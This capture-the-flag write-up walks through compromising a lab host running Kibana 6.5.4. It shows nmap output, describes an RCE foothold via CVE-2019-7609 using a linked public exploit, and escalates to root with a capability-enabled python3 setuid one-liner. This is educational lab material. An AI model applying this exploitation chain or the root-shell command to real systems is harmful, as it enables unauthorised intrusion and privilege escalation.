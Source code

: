 # resources
- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://github.com/mpgn/CVE-2019-7609. 
- https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications
- https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities

# recon
- nmap as allways
```
port scanning...
22/tcp open  ssh
80/tcp open  http
Enumerating open ports...
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 15:30 EDT
Nmap scan report for 10.10.197.113
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Thu, 03 Sep 2020 19:40:50 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Thu, 03 Sep 2020 19:40:48 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Thu, 03 Sep 2020 19:40:48 GMT
|_    {"statusCode":404,"error":"Not Found"}

```
- gobuster on port 80: nothing juicy
checking version? by visit `/app/kibana#/management` or view source code and search for `version`
```
version&quot;:&quot;6.5.4&
```
after some googling and diging, I found https://nvd.nist.gov/vuln/detail/CVE-2019-7609 which lead me to https://github.com/mpgn/CVE-2019-7609. 


# foot hold
follow step by step https://github.com/mpgn/CVE-2019-7609.
1. Open Kibana
2. Past one of the following payload into the Timelion visualizer
3. Click run
4. On the left panel click on Canvas
5. Your reverse shell should pop ! :)

There are 2 payloads on the github repo, first payload didnt works for me.


now just go grab the user flag
# root
I found really interesting files on `/home/kiba`
```
kiba@ubuntu:/home/kiba$ ls -la
ls -la
total 111064
drwxr-xr-x  6 kiba kiba      4096 Sep  3 14:01 .
drwxr-xr-x  3 root root      4096 Mar 31 10:41 ..
-rw-rw-r--  1 kiba kiba    407592 Sep  3 14:01 .babel.json
-rw-------  1 kiba kiba      9605 Mar 31 23:05 .bash_history
-rw-r--r--  1 kiba kiba       220 Mar 31 10:41 .bash_logout
-rw-r--r--  1 kiba kiba      3771 Mar 31 10:41 .bashrc
drwx------  2 kiba kiba      4096 Mar 31 16:42 .cache
drwxrwxr-x  2 kiba kiba      4096 Mar 31 22:38 .hackmeplease
drwxrwxr-x  2 kiba kiba      4096 Mar 31 17:22 .nano
-rw-r--r--  1 kiba kiba       655 Mar 31 10:41 .profile
-rw-r--r--  1 kiba kiba         0 Mar 31 16:52 .sudo_as_admin_successful
-rw-r--r--  1 root root       176 Mar 31 18:16 .wget-hsts
-rw-rw-r--  1 kiba kiba 113259798 Dec 19  2018 elasticsearch-6.5.4.deb
drwxrwxr-x 11 kiba kiba      4096 Dec 17  2018 kibana
-rw-rw-r--  1 kiba kiba        35 Mar 31 22:59 user.txt
kiba@ubuntu:/home/kiba$ ls -la .hackmeplease
ls -la .hackmeplease
total 4356
drwxrwxr-x 2 kiba kiba    4096 Mar 31 22:38 .
drwxr-xr-x 6 kiba kiba    4096 Sep  3 14:01 ..
-rwxr-xr-x 1 root root 4452016 Mar 31 22:38 python3
```
it is not often you find a binary files in this location. Also the name of the direcktory are baging for us.

so I try to run `print(123)` and it works. So we do have prive to run python3 even tho it is own by `root`. how come? read this to understand why https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities


so let exploit linux capability and get root
```
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh");'
```